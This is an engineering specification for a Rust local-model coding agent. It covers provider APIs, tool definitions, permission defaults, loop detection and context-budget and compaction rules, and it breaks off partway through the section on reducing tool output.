# Implementation spec

The contract for implementing agents. Why the project exists is in [ROADMAP.md](../ROADMAP.md); the order of work is in [TASKS.md](TASKS.md).

> [!NOTE]
> **Evidence labels:** external facts were checked on 2026-11-06 unless marked `UNVERIFIED`, which means from memory or inferred. Confirm those against the live server or docs.rs before relying on them, and correct this file.
>
> **Rust signatures** show intent; names may change, invariants may not.
>
> **Numeric defaults** such as budget percentages and limits are starting points to be tuned through evals, and they all live in config.

**Contents**

| Foundations | Agent | Safety and config | Integrations |
|---|---|---|---|
| [1. Goals](#1-goals) | [4. Core model](#4-core-model) | [8. Config, trust, sessions](#8-config-trust-and-sessions) | [11. Front ends](#11-front-ends) |
| [2. Performance](#2-performance) | [5. Provider](#5-provider) | [9. Permissions, sandbox](#9-permissions-and-sandbox) | [12. Plugins](#12-plugins) |
| [3. Workspace](#3-workspace) | [6. Tools](#6-tools) | [10. Security invariants](#10-security-invariants) | [13. MCP](#13-mcp) |
| [14. Testing](#14-testing) | [7. Context management](#7-context-management) | [15. Errors, logging](#15-error-and-logging-policy) | [16. Sources](#16-sources) |

## 1. Goals

In priority order:

1. **Reliable on local models.** Task success on small context windows and imperfect tool calling.
2. **Safe by construction.** Permissions and sandboxing hold even if the model is compromised.
3. **Fast.** See §2.
4. **Compatible.** MCP, ACP and Claude Code's plugin layout work unmodified where supported.

Out of scope: hosting models, any model backend other than LM Studio and Anthropic ([ADR 0004](adr/0004-anthropic-backend-and-per-agent-models.md)), automatic model routing, helper models for compression or tool calling (one GPU, see [RESEARCH.md](RESEARCH.md)), plugin marketplace, RAG, parallel subagents, telemetry, Windows and macOS sandboxing.

## 2. Performance

Inference dominates wall-clock time, so the priorities are:

1. **Avoid prompt reprocessing.** Keep the prefix stable (§7). This is the largest latency lever by far.
2. **Send fewer tokens.** Budgets, truncation, repo map.
3. **Praxis overhead.** Targets below.

| Metric | Target | Measured by |
|---|---|---|
| `praxis --version` cold start | < 20 ms | T7.2 |
| Ready for input, no MCP servers | < 100 ms | T7.2 |
| Ready for input with MCP servers | Same: servers connect in the background | T7.2 |
| Idle RSS, excluding servers | < 30 MB | T7.2 |
| Stream chunk to emitted event | < 1 ms | T7.2 |

These targets are initial estimates; adjust them if measurements show they are wrong.

Release profile: `lto = "fat"`, `codegen-units = 1`, `strip = true`. Keep `panic = "unwind"` so a panicking tool task becomes a tool error rather than killing the session.

Don't add custom allocators, arenas or `unsafe` optimisations without a benchmark showing a problem.

## 3. Workspace

```
Cargo.toml                 workspace, shared lints, release profile
crates/
  praxis-core/            library: everything below except front ends
    src/
      provider/            mod.rs, chat.rs, admin.rs, stream.rs, anthropic.rs (T8.3)
      agent/               loop, events, recovery
      context/             budget, compaction, repo map
      tools/               builtin tools, registry
      permissions/         rules, modes, sandbox policy
      config/              layers, trust
      session/             JSONL log, checkpoints
      mcp/                 rmcp client wrapper
      plugins/             discovery, skills, commands, agents, hooks
  praxis-cli/             binary `praxis`: CLI, REPL, `acp`, `sandbox-exec`
  praxis-vscode/          wasm32 cdylib: extension host side
  praxis-vscode-ui/       wasm32: webview UI
editors/vscode/            package.json, webview HTML shell, CSS
xtask/                     vsix packaging, eval runner
evals/                     task definitions, fixture repos
```

The wasm crates aren't default workspace members, so `cargo test` stays native.



Solid lines are compile-time links. Dashed lines happen at run or build time.

### Allowed dependencies

Verified latest versions on 2026-11-06. Use the current compatible release at T0.1 and commit `Cargo.lock`. Anything else needs human approval.

| Crate | Version | Used for |
|---|---|---|
| `tokio` | 1.54 | Runtime (multi-thread) |
| `tokio-util` | 0.7 | `CancellationToken` |
| `futures` | 0.3 | Stream combinators |
| `reqwest` | 0.13 | HTTP, features `stream`, `json`; rustls TLS |
| `serde`, `serde_json` | 1 | Serialization |
| `toml` | 1.2 | Config |
| `schemars` | 1.2 | Tool schemas from Rust types |
| `jsonschema` | 0.60 | Validating tool arguments |
| `clap` | 4.6 | CLI |
| `tracing`, `tracing-subscriber` | 0.1, 0.3 | Logging to stderr (`tracing-subscriber` version `UNVERIFIED`) |
| `thiserror` / `anyhow` | 2 / 1 | Core errors / CLI top level |
| `rmcp` | 3.9 | MCP client; `default-features = false`, features `client`, `transport-child-process`, `transport-streamable-http-client-reqwest` |
| `agent-client-protocol` | 5.0 | ACP v1, feature `stdio`. Don't enable `unstable_protocol_v2` |
| `ignore`, `globset` | 0.4 | `.gitignore`-aware walking, Glob |
| `grep-searcher`, `grep-regex` | 0.1 | Grep tool |
| `regex` | 1.13 | Hook matchers, permission rules |
| `similar` | 3.2 | Diffs for review |
| `directories` | 6 | XDG paths |
| `sha2` | 0.11 | Trust hashes |
| `landlock` | 0.4 | Sandbox |
| `wasm-bindgen`, `js-sys`, `web-sys`, `wasm-bindgen-futures` | Pin to the installed CLI | Extension |
| `leptos` (CSR) | 0.8 | Webview UI, not yet tried: T0.6 used `web-sys` directly |
| `pulldown-cmark` | 0.13 | Markdown in the webview |
| `zip` | 9.4 | `.vsix` (xtask only) |
| `wiremock` | 0.6 | Dev: fake provider server |

No SSE crate: `eventsource-stream` hasn't been updated since 2022, and line parsing is short. No tokenizer crate: see §7.

## 4. Core model

Front ends only ever see these events and send these commands. This boundary is what keeps ACP replaceable.

```rust
pub enum AgentEvent {
    TextDelta(String),
    ThinkingDelta(String),
    ToolStarted { id: ToolCallId, name: String, input: serde_json::Value, title: String },
    ToolFinished { id: ToolCallId, outcome: ToolOutcome },
    PermissionRequest { id: ToolCallId, name: String, input: serde_json::Value,
                        can_always: bool, diff: Option<FileDiff>, preview: Option<Preview>, respond: oneshot::Sender<PermissionReply> },
    Usage { prompt_tokens: u32, used_tokens: u32, context_size: u32, cached_tokens: Option<u32> },
    Compaction(CompactionState),
    Notice { severity: Severity, title: String, detail: Option<String> },
    TurnEnded(StopReason),
}

pub enum StopReason { EndTurn, MaxTokens, MaxTurnRequests, Cancelled, LoopDetected, ProviderError }

pub enum PermissionReply { AllowOnce, AllowAlways, RejectOnce, RejectAlways, Cancelled }
```

`ToolOutcome` is `Completed(ToolOutput)` or `Cancelled`. Variants and fields arrive with the task that first produces them: `Compaction` with T2.6, `diff` with T5.4 (the change a `Write` or `Edit` would make, from `tools::proposed_diff`, computed without writing), `preview` with T5.8. `can_always` says whether a front end may offer "always" (§9); core treats a disallowed `AllowAlways` as once. A `ToolStarted` precedes its `PermissionRequest`, and a denied call finishes as an error `ToolFinished`.

The agent loop runs as one Tokio task per session, sends events on an `mpsc` channel, and observes a `CancellationToken`. Handlers must be `Send`, which ACP also requires.

Map to ACP stop reasons (§11): `LoopDetected` becomes `end_turn` plus a warning `notice`, and `ProviderError` becomes a JSON-RPC error on the prompt.

### Loop



A cancel or provider failure can end the turn at any step, giving `TurnEnded(Cancelled)` or `TurnEnded(ProviderError)`.

Tool calls run sequentially. Local servers process requests serially, and ordering keeps the logs and permission prompts understandable. Cap at `max_turn_requests` (default 50).

## 5. Provider

### 5.1 Shape

```rust
pub struct Provider { chat: ChatClient, admin: AdminClient }

impl Provider {
    pub async fn chat(&self, req: ChatRequest, cancel: CancellationToken)
        -> Result<impl Stream<Item = Result<ChatChunk, ProviderError>>, ProviderError>;
    pub async fn list_models(&self) -> Result<Vec<ModelInfo>, ProviderError>;
    pub async fn ensure_ready(&self, model: &str, context: u32, policy: LoadPolicy) -> Result<ReadyModel, ProviderError>;
}
```

Two backends ([ADR 0004](adr/0004-anthropic-backend-and-per-agent-models.md)). LM Studio is the default: chat goes through its OpenAI-compatible route and model management through its native API. Anthropic is opt-in (§5.6). `Provider` holds a closed `enum Backend { LmStudio, Anthropic }`, chosen by the model reference, not a trait: tests go through HTTP against the fake server, so nothing needs a mock. `ensure_ready` and `list_models` load nothing on Anthropic; they read the Models API.

**Model references** are `<backend>/<model>` (`lmstudio/qwen3.5-4b`, `anthropic/claude-sonnet-5-5`) or an alias from `[models]` (§8). A bare name means LM Studio.  Only `lmstudio/` and `anthropic/` are backend prefixes: any other prefix is part of a bare LM Studio key (`google/gemma-4-12b-qat`), so an unknown backend can only be caught in an alias, whose `model` must carry a known prefix and can't name another alias.

- **Base URL:** LM Studio `http://localhost:1234` (seen on the dev machine, T0.3; configurable).
- **Proxies:** call `.no_proxy()` on loopback clients.
- **Remote URLs:** warn when a non-loopback URL uses plain `http://`.
- **Keys:** `api_key_env` in config names an environment variable. Keys are never stored in config or logged.
- **Errors:** connection refused, no model loaded (HTTP 400, `code: null`, message `No models loaded`), unknown model (HTTP 400, `code: model_not_found`), context overflow (see §5.2) and unsupported tools each get a distinct `ProviderError` with a message that tells the user what to do.

### 5.2 LM Studio facts

**LM Studio: chat through `/v1/chat/completions`, manage through `/api/v1/*`.** Native `/api/v1/chat` doesn't accept custom tools or client-supplied assistant messages.

| Item | Fact |
|---|---|
| Stream | OpenAI SSE |
| Context | `POST /api/v1/models/load` with `context_length`; with `echo_load_config: true`, the response's `load_config` shows what was applied |
| Model list | `GET /api/v1/models`: `key`, `max_context_length`, `loaded_instances[].{id, config.context_length}`, `capabilities.trained_for_tool_use` |
| Unload | `POST /api/v1/models/unload` |
| Auth | Optional `Authorization: Bearer` |
| Instances | `model` accepts an instance id such as `<key>:2`; use the id from `ensure_ready` |
| Usage | With `stream_options.include_usage`, a final chunk with empty `choices` has `prompt_tokens`, `completion_tokens`, `completion_tokens_details.reasoning_tokens`. No cached-token field |
| Reasoning | Delta field `reasoning_content` |
| Stream errors | **HTTP 200** with SSE `event: error`; the message embeds `exceed_context_size_error`, `n_prompt_tokens`, `n_ctx` |

Evidence: [ADR 0002](adr/0002-lmstudio-provider-findings.md).

**`ensure_ready` behaviour.** A reload would disrupt anything else using the server, so it only happens with consent:



`agent.auto_load` defaults to `true`, so a missing model loads without asking. Set `auto_load = false` to be asked first. The provider never prompts. `LoadPolicy::Allowed` means `auto_load = true` or approval already given. `LoadPolicy::AskFirst` fails with `ProviderError::LoadNeedsConsent` instead of loading, so the front end can ask and retry with `Allowed`, or stop and show the error's explanation. A load adds an instance and leaves existing ones in place. If a load applies less context than requested, that is an error.

### 5.3 Tool-call recovery

Weak models are the core problem here.



Stages, in order:

1. **Native** `tool_calls` from the response.
2. **Text-embedded calls**, only in the assistant's own output, using parsers selected by the model profile (`<tool_call>{json}</tool_call>` and the fenced `<tools>`/`<response>` JSON that qwen2.5-coder emits, ADR 0002).
3. **JSON repair:** double-encoded argument strings, trailing commas, code fences, literal newlines in strings, doubled braces, single-quoted strings.
4. **Schema validation** with `jsonschema` against the tool's input schema.
5. **On failure,** return a structured tool error to the model naming the problem and the expected shape. Allow up to 3 failures for the same call in a row, then stop with a notice.
6. **Constrained retry (T2.12).** The retry uses LM Studio's `response_format` JSON schema, which uses grammar sampling on GGUF models. T0.3 found no `tool_calls` come back when it is set, and sending `tools` too fails outright on `qwen3.5-4b`. So omit `tools`, read arguments from `content`, and turn reasoning off or give it enough output budget. This fixes structure only, so validation and permission checks still apply. LM Studio warns that not all models support structured output, especially those under 7B, so if the server rejects the request, the turn warns and falls back to plain retries.

Rules:

- Never parse tool calls out of tool results. Recovered calls go through the same permission path as native ones.
- Never execute a call that failed validation.
- On LM Studio, strip reasoning (`<think>` blocks or a reasoning field) before storing the assistant message, so history stays compact and stable. Still emit it as `ThinkingDelta`.
- Record parse failures for the scoreboard (`Agent::parse_failures`).
- A text format is parsed only when the profile selects it, and only if the reply has no native calls. "The same call" means the same tool name. Stopping uses `StopReason::LoopDetected`.

### 5.4 Loop detection

Stop with `LoopDetected` when any of these happen:

- The same tool and arguments occur 3 times in a row.
- The same tool and arguments occur 5 times within the last 20 calls.
- There are 10 consecutive read-only calls with an empty assistant message and nothing new read. A `Read` with arguments not seen before in the turn (a new file or a new range) counts as new.

### 5.5 Model profiles

Layered: built-in by name pattern, then capabilities reported by LM Studio, then user config.

```toml
[profiles."qwen3*"]
context = 64000
max_output = 8192
tool_format = "native"        # native | hermes-text | ...; qwen2.5-coder is text-only (ADR 0002)
temperature = 0.2
stop = []
strip_thinking = true
constrained_retry = true      # on once LM Studio reports the model
```

`--model` loads with `lmstudio.context` if set, else the profile's `context`, else 32768. Without `--model`, the loaded instance's context is used. The §7 budget categories are shares of that size, so they follow the model. Evals use each task's own `context_length`.

A model reporting no tool support gets a warning, then text-embedded calling with the format described in the system prompt. Text formats (`hermes-text`, `fenced-json`) send no `tools` array; the system prompt lists the tools instead. A built-in text format is kept, and a user `tool_format` overrides everything and silences the warning.

### 5.6 Anthropic facts

Opt-in backend from [ADR 0004](adr/0004-anthropic-backend-and-per-agent-models.md). Raw HTTP over `reqwest`; there is no official Rust SDK and no new crate. Facts are from Anthropic's docs as of 2026-11-03 and stay `UNVERIFIED` until T8.1 records fixtures.

| Item | Fact |
|---|---|
| Endpoint | `POST https://api.anthropic.com/v1/messages` with `stream: true` |
| Headers | `x-api-key` (from `anthropic.api_key_env`), `anthropic-version: 2026-10-21`, `content-type: application/json` |
| Stream | SSE `message_start`, `content_block_start`/`_delta`/`_stop`, `message_delta` (stop reason, output usage), `message_stop`, `ping`, and `error` (which can arrive after HTTP 200) |
| Tool calls | `tool_use` content blocks; arguments stream as `input_json_delta` pieces, assembled by block index. Results go back as `tool_result` blocks in **one** user message, with `is_error: true` for failures |
| Tools | `input_schema` plus `strict: true`. Forced `tool_choice` (`any`, `tool`) is rejected on current models, so use `auto` |
| Sampling | `temperature`, `top_p`, `top_k` are rejected under this API version. Profiles must not send them |
| Thinking | `thinking: {type: "adaptive"}`, depth through `output_config.effort`. Thinking blocks must be sent back unchanged; editing earlier history can invalidate them |
| Caching | Top-level `cache_control: {type: "ephemeral"}`; `usage.cache_read_input_tokens` and `cache_creation_input_tokens` |
| Context | `GET /v1/models/{id}`: `max_input_tokens` (context) and `max_tokens` (output cap). Never assume it |
| Stop reasons | `end_turn`, `tool_use`, `max_tokens`, `pause_turn`, `refusal` (check before reading content) |
| Errors | 401 bad key, 429 rate limit and 529 overload (retry after `retry-after`, at most twice), 400 `invalid_request_error` |

Mapping rules:

- Text-embedded call parsing (§5.3 stage 2) and constrained retry are off; JSON repair, schema validation and the permission path stay on.
- `refusal` ends the turn as `ProviderError` with the category in the message. `pause_turn` resends the conversation unchanged.
- The first Anthropic request in a session emits a `Notice` naming the backend and model, because content leaves the machine.
- `cached_tokens` in `AgentEvent::Usage` is filled from `cache_read_input_tokens`.
- The profile layer "capabilities reported by LM Studio" (§5.5) comes from the Models API instead.

## 6. Tools

**Names and parameters match Claude Code exactly** because plugin hooks match on them (`"matcher": "Write|Edit"`) and read `tool_input.file_path`. Changing them breaks plugin compatibility.

| Tool | Parameters | Default permission |
|---|---|---|
| `Read` | `file_path`, `offset?`, `limit?` | allow in workspace |
| `Write` | `file_path`, `content` | ask |
| `Edit` | `file_path`, `old_string`, `new_string`, `replace_all?` | ask |
| `Bash` | `command`, `description?`, `timeout?` (ms) | ask, sandboxed |
| `Grep` | `pattern`, `path?`, `glob?`, `output_mode?`, `-i?`, `multiline?` | allow in workspace |
| `Glob` | `pattern`, `path?` | allow in workspace |

Later additions: `Skill` (T6.2), `ToolSearch` and `CallTool` (T4.4).

```rust
pub struct ToolOutput { pub content: String, pub is_error: bool, pub structured: serde_json::Value }
```

`structured` is what `PostToolUse` hooks receive as `tool_response`: `Write` gives `filePath`, `type`; `Bash` gives `stdout`, `stderr`, `interrupted`, `isImage`.

Behaviour:

- **Paths** are absolute in `tool_input`. Resolve relative paths against the workspace before hooks see them.
- **`Edit`** fails if `old_string` is missing or, without `replace_all`, not unique. Say which, and include a near match if one exists, since weak models often get whitespace wrong. Require the file to have been read earlier in the session, and refuse if it changed since that read, so a developer's concurrent edit is never overwritten.
- **`Write` and `Edit` results** stay short (path and lines changed) and never repeat file content to the model. Hooks still receive the full `structured` value.
- **`Write` and `Edit`** write through a temp file and atomic rename, and preserve file mode. Checkpoint first (§8).
- **`Grep`** defaults `output_mode` to `content` (matching lines with line numbers), unlike Claude Code's `files_with_matches`: with file names only, small models grep again to find where to read, and get stopped as a loop.
- **`Read`** returns line-numbered text, refuses binary files, and applies a default line limit. Never filter or minify its content, because `Edit` needs an exact match.
- **`Bash`** runs through `praxis sandbox-exec` (§9), kills the whole process group on timeout, on cancel and when the shell exits (a leftover background job would hold the output pipes open), and has a default timeout of 120 s. Without `unsafe`, the kill goes through the shell's `kill` builtin.
- **Tool errors** are returned to the model as content. They never end the turn.

## 7. Context management

### Prompt layout

Everything before the history must stay **byte-identical** for the whole session.



- Date, cwd, branch and OS are captured once at session start. If they change, append a message; never rewrite the prefix.
- Serialize tools and JSON deterministically, with stable key order.
- **Don't change the `tools` array mid-session.** Changing it forces a full reprocess, measured on both tested models (ADR 0002).
- Rewrite old messages only in a compaction pass. Filter and truncate tool output once, when first recorded.
- A fact that changed reaches the model as a note at the start of the next user message, because a separate message would break strict role alternation in some chat templates.
- A constrained retry (§5.3) must omit `tools`, so it and the next normal request each reprocess the whole prompt. History stays append-only across both, and only a failed call pays this.
- LM Studio reports no cached tokens, so log time to first token. A regression test (T2.5) asserts that consecutive request bodies share a prefix.

### Token budget

Default allocation of the context window `C`:

| Category | Limit |
|---|---|
| Reserved for output | 15% of `C` |
| System prompt, tools, memory files, skill index | 25% of `C`; warn and trim memory files, broadest first, when over |
| One tool result | 10% of `C` |
| History | Whatever remains; compact when the whole prompt passes 80% of `C` |

**Counting:** no tokenizer dependency, because tokenizers vary by model and the server knows the truth. Estimate at `chars / 3.5`, then calibrate per session from the `usage` the server reports. Compact early when uncertain.

**Oversized tool results:** keep head and tail, write the full text to the session's spool directory, and tell the model the path and how to read more. Until sessions exist (§8), the spool is a private per-session temp directory removed at session end. `Read` may read it (outside the workspace, read-only); file names never come from the model. `max_tokens` is set to the output reservation.

**Truncation detection:** T0.3 saw no silent truncation: over `C`, LM Studio returns `exceed_context_size_error` (§5.2), which forces compaction. Before each request, check the estimate against `C`. As a guard against other versions, a reported prompt size below 50% of the calibrated estimate also warns and forces compaction; 50% is a judgement, not a measurement, since estimates were within 2% in T0.3.

### Compaction

Every rewrite of history discards the server's cache from that point on, so compaction is rare, batched and tiered, with the cheapest stage first. Evidence and the conflict behind this design are in [RESEARCH.md](RESEARCH.md#the-conflict).



**Masking rules:**
- Mask whole tool results, never individual tokens or lines. Assistant text and tool calls stay.
- Always keep the most recent `mask_keep_turns` turns (default 10), or as many as fit. A turn starts at an assistant message. Never mask a result the model hasn't had a turn to use.
- The placeholder names the tool, its arguments and how to get the output again, such as `[Output removed to save space: Read src/a.rs lines 1-200. Call it again if needed.]`. Repeating a call with side effects isn't a safe re-fetch, so output from anything but `Read`, `Grep` and `Glob` is spooled when masked and the placeholder gives that path.
- The window size needs tuning, so evals compare 5, 10 and 20 against no masking. Small models may be more sensitive.

**Summaries** use a structured template: goal, decisions, files changed, current state, next step. New history is `[summary] + [last N turns]`. It is one user message, labelled as model-written, and ends with the latest request verbatim so a summary can't lose it. A context overflow or a suspiciously small reported prompt forces compaction; an overflow retries the request once.

Every stage leaves the prefix before history untouched, emits `Compaction` events and records the boundary in the session log (until sessions exist, in `tracing` logs only). The full log stays on disk.

### Reducing tool output

Applied once, when a result is first recorded, so they never rewrite history. These are Should tasks and stay only if evals show no drop in success.

**Output filters (T2.11)** are rule-based. The complete output always stays in the spool directory, and they can be turned off with `filter_output = false`.

| Removed | Always kept |
|---|---|
| ANSI codes, progress bars, carriage-return overwrites | Exit codes |
